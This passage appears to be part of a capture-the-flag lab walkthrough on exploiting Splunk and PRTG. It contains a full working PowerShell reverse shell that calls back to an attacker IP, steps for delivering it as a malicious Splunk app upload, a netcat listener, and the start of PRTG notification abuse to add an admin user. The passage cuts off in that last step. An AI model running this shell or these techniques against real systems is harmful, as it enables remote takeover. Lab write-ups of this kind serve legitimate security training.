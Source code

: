 Modify the one-liner:

```
#A simple and small reverse shell. Options and help removed to save space. 
#Uncomment and change the hardcoded IP address and port number in the below line. Remove all help comments as well.
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.147',1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Create a tarball or `.spl` file.

```shell-session
tar -cvzf updater.tar.gz reverse_shell_splunk/
```

Set a listener on the attacking machine:

```
nc -lnvp 1234
```

In the browser go to Manage apps, upload app, and upload your updater.tar.gz. Upon upload, the shell will be triggered. Now print the flag.

```
dir c:\loot
type c:\loot\flag.txt
```

Results: l00k_ma_no_AutH!


**What version of PRTG is running on the target?**

See the footer of http://10.129.48.71:8080/. Also:

```shell-session
curl -s http://$target:8080/index.htm -A "Mozilla/5.0 (compatible;  MSIE 7.01; Windows NT 5.0)" | grep version
```

Results: 18.1.37.13946


**Attack the PRTG target and gain remote code execution. Submit the contents of the flag.txt file on the administrator Desktop.**

**1.** Access to the application at http://10.129.41.233:8080  with `prtgadmin:Password123`

**2.** To begin, mouse over `Setup` in the top right and then the `Account Settings` menu and finally click on `Notifications`.

**3.** Next, click on Add new notification.

**4.** Give the notification a name and scroll down and tick the box next to EXECUTE PROGRAM. Under Program File, select Demo exe notification - outfile.ps1 from the drop-down. Finally, in the parameter field, enter a command. For our purposes, we will add a new local admin user by entering
